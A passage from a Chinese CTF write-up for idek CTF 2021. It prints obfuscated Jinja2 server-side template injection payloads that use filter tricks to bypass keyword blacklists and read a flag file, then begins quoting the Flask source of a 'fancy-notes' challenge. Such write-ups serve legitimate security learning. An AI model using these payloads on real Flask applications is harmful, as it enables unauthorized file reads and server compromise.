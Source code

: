 ```python
{{url_for.__init__}}
```

对于关键字的过滤使用了`(dict()|list)[False]`的方式进行一个绕过，但是说实话我并不清楚这个`False`的用意是什么，如果不带`False`或用了`True`返回的结果都是空的，我也没有查到相关的资料（如果有带师傅看到了请务必指教！！！

还有从discord里看到的其它版本的payload，也是用到了各种各样的过滤器

```python
{{(dict(a=x)|last)[dict(__cl=x,ass__=x)|join][dict(__mro__=x)|last][dict(a=x)|last|count][dict(__subcl=x,asses__=x)|join]()[dict(gc=x)|last|int(base=(dict(aaaaaaaaaaaaaaaaaa=x)|last|count))]()[dict(open=x)|last](dict(fl=x,ag=x)|join)[dict(read=x)|last]()}}
```

如果搭配上`dict()`这样的用法也是可以接`|attr()`的，上面我写的注释并没有考虑到这一点，我的（因为做题的时候还不清楚这些奇妙的过滤器操作，学到咯

```python
{{((((dict|attr(dict(__mro__=x)|first))|last|attr(dict(__subclas=x)|first%2bdict(ses__=x)|first)()))[([a,a,a,a]|length|string%2b[a,a]|length|string%2b[a,a,a]|length|string)|int])(dict(fla=x)|first%2bdict(g=x)|first)|attr(dict(read=_x)|first)()}}
```

![image-20211213140710659](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211213140710659.png)

`idek{us1nG_f1lt3rs_t0_byP4s5_f1lt3r5}`

## fancy-notes

> Your typical note taking app, but this time it's fancy! Share your coolest notes with the admin, and if they're cool enough, maybe he'll give you a special prize.
>
> http://fancy-notes.chal.idek.team  |  https://ctf.idek.team/handouts/web/FancyNotes/fancy-notes-dist.zip

一个flask，有提交notes的地方，尝试SSTI失败

![image-20211214000607181](https://raw.githubusercontent.com/AmiaaaZ/ImageOverCloud/master/wpImg/image-20211214000607181.png)

看代码逻辑没有什么特别的

```python
from flask import Flask, redirect, request, session, send_from_directory, render_template
import os
import sqlite3
import subprocess

app = Flask(__name__, static_url_path='/static', static_folder='static', template_folder='templates')
app.secret_key = os.getenv('SECRET', 'secret')  # secret passwd在环境变量中
ADMIN_PASS = os.getenv('ADMIN_PASS', 'password')
flag = open('flag.txt', 'r').read() # flag is here


def init_db():
    con = sqlite3.connect('/tmp/database.db')   # sqlite数据库
    cur = con.cursor()
    cur.execute('CREATE TABLE IF NOT EXISTS users (id INTEGER PRIMARY KEY AUTOINCREMENT, username TEXT NOT NULL UNIQUE, password TEXT NOT NULL)')
    cur.execute('INSERT INTO USERS (username, password) VALUES ("admin", ?)', [ADMIN_PASS]) # 插入admin账号密码
    cur.execute('CREATE TABLE IF NOT EXISTS notes (title TEXT NOT NULL, content TEXT NOT NULL, owner TEXT NOT NULL)')
    cur.execute('INSERT INTO notes (title, content, owner) VALUES ("flag", ?, 1)', [flag])  # 插入flag进入notes表
    con.commit()
    con.close()

```